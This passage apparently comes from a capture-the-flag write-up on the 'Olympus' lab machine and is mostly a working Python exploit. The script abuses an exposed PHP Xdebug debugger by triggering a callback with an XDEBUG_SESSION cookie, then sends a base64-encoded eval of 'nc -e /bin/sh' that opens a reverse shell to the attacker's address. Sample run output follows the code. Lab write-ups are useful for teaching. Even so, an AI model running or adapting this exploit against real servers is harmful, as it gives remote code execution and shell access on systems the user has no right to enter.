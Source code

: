     ip = get_my_ip()
    port = sys.argv[1]
    
    print("[!] Have nc listening on {}".format(port))
    
    # Start Listener
    local_ip = "0.0.0.0"
    local_port = 9000
    print("[*] Starting listener on {}:{}".format(local_ip, local_port))
    s = socket.socket()
    s.bind((local_ip, local_port))
    s.listen(10)
    print("[+] Listening...")
    
    # Tip server to call back
    print("[*] Sending request to tip xdebug")
    try:
        r = requests.get("http://10.10.10.83/index.php",
                     headers={"Cookie": "XDEBUG_SESSION=wpOCvcWXx5"},
                    timeout=2)
    except:
        pass
    
    # Catch callback
    conn, addr = s.accept()
    client_data = conn.recv(1024)
    print("[+] Connection received from {}:{} on port {}".format(addr[0], addr[1], local_port))
    cmd = 'system("nc -e /bin/sh {} {}")'.format(ip, port).encode('utf-8')
    print("[*] Sending command get shell on port {}".format(port))
    conn.sendall(('eval -i 1 -- %s\x00' % b64encode(cmd).decode('utf-8')).encode('utf-8'))
    
    print("[*] Cleaning up. Should have callback")
    s.close()
    conn.close()
    

Now, to get a shell, with nc listener going, run the script:

    
    
    root@kali# ./get_olympic_www_shell.py 443
    [!] Have nc listening on 443
    [*] Starting listener on 0.0.0.0:9000
    [+] Listening...
    [*] Sending request to tip xdebug
    [+] Connection received from 10.10.10.83:36262 on port 9000
    [*] Sending command get shell on port 443
    [*] Cleaning up. Should have callback
    

And get a callback:
